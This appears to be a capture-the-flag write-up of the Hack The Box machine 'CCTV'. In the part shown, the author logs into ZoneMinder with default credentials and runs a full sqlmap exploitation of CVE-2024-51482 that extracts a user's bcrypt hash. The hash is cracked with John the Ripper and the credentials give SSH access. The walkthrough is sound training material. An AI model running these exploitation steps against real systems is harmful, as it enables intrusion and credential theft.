










## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [ZoneMinder Dashboard](#ZoneMinder-Dashboard)
- [Initial Access](#Initial-Access)
    - [CVE-2024-51482: Boolean-based SQL Injection in ZoneMinder](#CVE-2024-51482-Boolean-based-SQL-Injection-in-ZoneMinder)
    - [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Enumeration (mark)](#Enumeration-mark)
- [Port Forwarding](#Port-Forwarding)
- [Accessing motionEye](#Accessing-motionEye)
- [Privilege Escalation to root (unintended)](#Privilege-Escalation-to-root-unintended)
    - [CVE-2025-60787: motionEye 0.43.1b4 Remote Code Execution (RCE)](#CVE-2025-60787-motionEye-0431b4-Remote-Code-Execution-RCE)
- [user.txt](#usertxt)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)
- [Privilege Escalation to root (intended)](#Privilege-Escalation-to-root-intended)
    - [Linux Capability Abuse to capture Network Traffic](#Linux-Capability-Abuse-to-capture-Network-Traffic)

## Summary

The box starts with `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`. The web service reveals a `ZoneMinder` CCTV management application with default credentials `admin:admin` allowing access to the dashboard running version `1.37.63`.

This version is vulnerable to `CVE-2024-51482` a Boolean-based `SQL` injection vulnerability. Using `sqlmap` the database is enumerated revealing a `bcrypt` password hash for the `mark` user. Cracking the hash with `John the Ripper` yields the password `opensesame` allowing `SSH` access as `mark`.

For the unintended `Privilege Escalation` path port forwarding reveals `motionEye 0.43.1b4` running on port `8765/TCP`. This version is vulnerable to `CVE-2025-60787` allowing Remote Code Execution (RCE) through client-side validation bypass in the image filename parameter. Exploiting this vulnerability grants root access and retrieval of both `user.txt` and `root.txt`.

For the intended `Privilege Escalation` path enumeration reveals that `tcpdump` has the `cap_net_raw` Linux capability set allowing packet capture without root privileges. The system runs `Docker` containers communicating on internal networks. By capturing network traffic on the `172.25.0.0/24` subnet credentials for the `sa_mark` service account are intercepted from a plaintext authentication protocol. The `sa_mark` account has access to world-readable configuration files in `/etc/motioneye/` containing the admin password hash for `motionEye`. This leads to the same `CVE-2025-60787` exploitation path achieving root access.

## Reconnaissance

### Port Scanning

As always we began with out initial port scan using `Nmap`.  The scan revealed `SSH` and an `Apache` web server that redirected to `http://cctv.htb/`, which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.2.193
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-07 20:09 +0100
Nmap scan report for 10.129.2.193
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.2.193    cctv.htb
```

### Enumeration of Port 80/TCP

We accessed the web service and used `WhatWeb` to identify technologies in use.

- [http://cctv.htb/](http://cctv.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://cctv.htb/
http://cctv.htb/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], Email[info@cctv.htb,info@securevision.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[10.129.2.193], Title[SecureVision CCTV & Security Solutions]
```

The website displayed a CCTV and security solutions company page.



Browsing through the site we discovered a `ZoneMinder` login page.



## ZoneMinder Dashboard

We attempted to authenticate with default credentials and successfully logged in.

| Username | Password |
| -------- | -------- |
| admin    | admin    |

The dashboard revealed we were running `ZoneMinder` version `1.37.63`.



| Version  |
| -------- |
| v1.37.63 |

Exploring the application we found a user management section which revealed another username.



| Username |
| -------- |
| mark     |

## Initial Access

### CVE-2024-51482: Boolean-based SQL Injection in ZoneMinder

Research into `ZoneMinder 1.37.63` revealed it was vulnerable to `CVE-2024-51482` a Boolean-based `SQL` injection vulnerability. We used `sqlmap` to exploit the vulnerability and extract the password hash for the `mark` user.

-  [https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)

According to the documentation of `ZoneMinder` we adjusted our payload to go directly to the table `zm.Users` and queried for the user `mark` to save time.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/files]
└─$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=6klck7covfji4bt6uaev3ukmsq" --sql-query="SELECT Password FROM zm.Users WHERE Username='mark'" --batch --time-sec=5
        ___
       __H__                                                                                                                                                                                                                                                                                                                                                                                                                              
 ___ ___[)]_____ ___ ___  {1.10.2#stable}                                                                                                                                                                                                                                                                                                                                                                                                 
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                                                                                                                                                                                                                 
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                                                                                                                                                                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                                                                                                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:40:46 /2026-03-07/

[20:40:46] [INFO] testing connection to the target URL
[20:40:46] [INFO] testing if the target URL content is stable
[20:40:46] [INFO] target URL content is stable
[20:40:46] [INFO] testing if GET parameter 'view' is dynamic
[20:40:46] [WARNING] GET parameter 'view' does not appear to be dynamic
[20:40:46] [WARNING] heuristic (basic) test shows that GET parameter 'view' might not be injectable
[20:40:47] [INFO] testing for SQL injection on GET parameter 'view'
[20:40:47] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:40:47] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:40:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:40:47] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:40:48] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:40:48] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:40:48] [INFO] testing 'Generic inline queries'
[20:40:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:40:49] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:40:49] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:40:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:40:49] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[20:40:50] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:40:50] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[20:40:50] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[20:40:51] [WARNING] GET parameter 'view' does not seem to be injectable
[20:40:51] [INFO] testing if GET parameter 'request' is dynamic
[20:40:51] [INFO] GET parameter 'request' appears to be dynamic
[20:40:51] [WARNING] heuristic (basic) test shows that GET parameter 'request' might not be injectable
[20:40:51] [INFO] testing for SQL injection on GET parameter 'request'
[20:40:51] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:40:52] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:40:52] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:40:52] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:40:52] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:40:53] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:40:53] [INFO] testing 'Generic inline queries'
[20:40:53] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:40:53] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:40:54] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:40:54] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:40:54] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[20:40:55] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:40:55] [INFO] testing 'Oracle AND time-based blind'
[20:40:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[20:40:56] [WARNING] GET parameter 'request' does not seem to be injectable
[20:40:56] [INFO] testing if GET parameter 'action' is dynamic
[20:40:56] [INFO] GET parameter 'action' appears to be dynamic
[20:40:56] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
[20:40:56] [INFO] testing for SQL injection on GET parameter 'action'
[20:40:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:40:56] [WARNING] reflective value(s) found and filtering out
[20:40:56] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:40:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:40:57] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:40:57] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:40:58] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:40:58] [INFO] testing 'Generic inline queries'
[20:40:58] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:40:58] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:40:59] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:40:59] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:40:59] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[20:40:59] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[20:41:00] [INFO] testing 'Oracle AND time-based blind'
[20:41:00] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[20:41:00] [WARNING] GET parameter 'action' does not seem to be injectable
[20:41:00] [INFO] testing if GET parameter 'tid' is dynamic
[20:41:00] [WARNING] GET parameter 'tid' does not appear to be dynamic
[20:41:00] [WARNING] heuristic (basic) test shows that GET parameter 'tid' might not be injectable
[20:41:01] [INFO] testing for SQL injection on GET parameter 'tid'
[20:41:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:41:01] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:41:01] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:41:02] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:41:02] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:41:02] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:41:03] [INFO] testing 'Generic inline queries'
[20:41:03] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:41:03] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:41:03] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:41:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:41:14] [INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[20:41:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:41:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:41:14] [INFO] checking if the injection point on GET parameter 'tid' is a false positive
GET parameter 'tid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 276 HTTP(s) requests:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 2337 FROM (SELECT(SLEEP(5)))QRtF)
---
[20:41:35] [INFO] the back-end DBMS is MySQL
[20:41:35] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[20:41:35] [INFO] fetching SQL SELECT statement query output: 'SELECT Password FROM zm.Users WHERE Username='mark''
[20:41:35] [INFO] retrieved: 1
[20:41:46] [INFO] retrieved: $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QN
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
qZolbXKfFG.
SELECT Password FROM zm.Users WHERE Username='mark': '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.'
[21:01:54] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 562 times
[21:01:54] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 21:01:54 /2026-03-07/
```

And after a while we successfully extracted the password hash for `mark`.

| Hash                                                         |
| ------------------------------------------------------------ |
| $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |

### Cracking the Hash using John the Ripper

We used `John the Ripper` to crack the `bcrypt` hash.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/files]
└─$ cat mark.hash 
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/files]
└─$ sudo john mark.hash --wordlist=/usr/share/wordlists/rockyou.txt   
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
opensesame       (?)     
1g 0:00:00:48 DONE (2026-03-07 20:45) 0.02082g/s 124.4p/s 124.4c/s 124.4C/s cristhian..tuyyo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password   |
| -------- | ---------- |
| mark     | opensesame |

And with the retrieved password we were able to authenticate via SSH as mark.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh mark@10.129.2.193
The authenticity of host '10.129.2.193 (10.129.2.193)' can't be established.
ED25519 key fingerprint is: SHA256:KrrHjS+nu1wJEfv1/NxT1fI+ODJaSRdJtFg201G+tO0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.2.193' (ED25519) to the list of known hosts.
mark@10.129.2.193's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat  7 Mar 19:42:45 UTC 2026

  System load:           0.15
  Usage of /:            74.2% of 8.70GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             254
  Users logged in:       0
  IPv4 address for eth0: 10.129.2.193
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e6be

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

14 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm
```

## Enumeration (mark)

Right after getting access to the shell as mark we started with our default enumeration routine. That included checking `group permissions`, searching for other `users` and testing for potential `sudo permissions`. We also checked the `locally running services` and files and folders within `/opt`.

```shell
mark@cctv:~$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
```

A look at the `/etc/passwd` file revealed another user called `sa_mark`. This meant that we eventually needed to perform an additional step in privilege escalation before we could work on root.

```shell
mark@cctv:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
mark:x:1000:1000:mark:/home/mark:/bin/bash
dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin
sa_mark:x:1001:1001::/home/sa_mark:/bin/sh
mysql:x:110:111:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:111:113::/var/spool/postfix:/usr/sbin/nologin
